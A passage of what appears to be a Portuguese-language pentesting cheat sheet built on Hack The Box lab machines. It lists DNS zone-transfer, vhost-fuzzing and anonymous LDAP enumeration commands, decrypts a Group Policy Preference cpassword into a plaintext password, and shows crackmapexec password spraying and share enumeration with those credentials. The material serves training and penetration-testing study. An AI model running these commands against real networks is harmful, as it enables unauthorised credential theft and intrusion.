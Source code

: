 ```bash
kali@kali: > nslookup
				> server 10.10.10.13
				> 10.10.10.13

kali@kali: >  dig @10.10.10.123 friendzone.red axfr
kali@kali: >  dnsenum --server 10.10.10.224 --threads 50 -f /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
kali@kali: >  host -t axfr friendzone.red 10.10.10.123

wfuzz -c --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -H "Host: FUZZ.forwardslash.htb" http://forwardslash.htb/

####################################################################
ldapsearch -h 10.10.10.161 -x
ldapsearch -h 10.10.10.161 -x -s base namingcontexts
ldapsearch -h 10.10.10.161 -x -b "DC=htb,DC=local" > enumeration/ldap-anonymous.out

```

# 3. SYSVOL - Group Policy Preference - GPP

> se for possível ler um arquivo "Groups.xml", provalvelmente se encontrará o seguinte:<br> &nbsp;&nbsp;&nbsp;&nbsp;- cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"<br> &nbsp;&nbsp;&nbsp;&nbsp;- userName="active.htb\SVC_TGS"

## 3.1. gpp-decrypt

> A simple ruby script that will decrypt a given GPP encrypted string

```bash
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ

GPPstillStandingStrong2k18
```

# 4. CrackMapExec

> A swiss army knife for pentesting networks

```bash
crackmapexec smb 10.10.10.100
crackmapexec smb 10.10.10.100 -u "SVC_TGS" -p "GPPstillStandingStrong2k18"
crackmapexec smb 10.10.10.100 -u "SVC_TGS" -p "GPPstillStandingStrong2k18" --shares
crackmapexec smb 10.10.10.149 -u users.txt -p passwords.txt --shares
crackmapexec smb 10.10.10.149 -u Hazard -p stealth1agent --shares  --rid-brute

crackmapexec winrm 10.10.10.149 -u users.txt -p passwords.txt


```
